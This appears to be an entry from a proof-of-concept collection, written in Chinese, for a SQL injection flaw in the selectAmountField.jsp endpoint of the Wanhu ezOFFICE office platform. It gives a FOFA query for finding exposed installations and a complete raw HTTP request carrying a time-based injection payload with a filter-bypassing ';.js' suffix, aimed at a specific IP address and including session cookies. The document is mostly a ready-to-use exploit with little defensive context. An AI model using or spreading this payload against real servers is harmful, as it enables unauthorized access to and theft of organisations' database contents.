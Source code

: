 ## 万户 ezOFFICE selectAmountField.jsp SQL注入

selectAmountField .jsp接口处存在sql注入漏洞，攻击者可获取数据库中敏感信息

## fofa
```
app="ezOFFICE协同管理平台"
```

## poc
```
GET /defaultroot/platform/custom/custom_database/dropdownselect/selectAmountField.jsp;.js?tableId=11%20Waitfor%20delay%20'0:0:5'%20%2d%2d%20 HTTP/1.1
Host: 60.216.117.230:7001
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: OASESSIONID=1889A485C582C2767D32B0371124D2E8; OASESSIONID=A52236350E4A11BBCAF4032BAFA3F6BA; LocLan=zh_CN
Connection: close
```

